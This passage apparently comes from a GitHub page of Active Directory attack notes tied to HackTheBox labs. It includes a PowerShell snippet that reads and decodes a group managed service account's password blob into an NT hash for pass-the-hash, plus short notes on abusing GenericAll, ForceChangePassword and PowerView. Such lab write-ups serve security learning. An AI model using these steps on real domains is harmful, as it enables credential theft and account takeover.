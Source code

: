 ```ps
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

## 9. GenericWrite/GenericAll/AllExtendedRights 
Description: GenericAll allows an attacker to modify the object in question. In this example, we change the password of a Domain Administrator. GenericWrite allows the modification of certain things (More on this in Object from Hackthebox).
Environment: Search from HacktheBox

More detailed info at :https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

![image](https://user-images.githubusercontent.com/83407557/186254375-d5c7046f-676b-4158-9253-00ea192e2bf5.png)

![image](https://user-images.githubusercontent.com/83407557/186254542-ea25c2fd-b420-48a6-a68b-78c130ef2d85.png)



## 8. ForceChangePassword 
Description: ForceChangePassword allows an attacker to change the password of the object in question.
Environment: Object from Hackthebox
Timestamp: 16:31

Oliver has forcechangepassword on smith:

![image](https://user-images.githubusercontent.com/83407557/186254989-c4cc71de-abf9-47a9-8d83-89f5fd28c376.png)

![image](https://user-images.githubusercontent.com/83407557/186255174-27fc42f5-f76e-467c-b3b7-18ae4bc94935.png)


## 7. PowerView 
Description: Allows for additional manipulation of Active Directory. Many of the commands presented by BloodHound require PowerView.
Environment: Object from Hackthebox
Timestamp: 17:00

![image](https://user-images.githubusercontent.com/83407557/186255998-ef9a4d3b-329a-42a5-adb8-5f07dd71c7ab.png)

![image](https://user-images.githubusercontent.com/83407557/186256123-3bd06733-2ceb-46cf-b115-e072fa9e72d5.png)
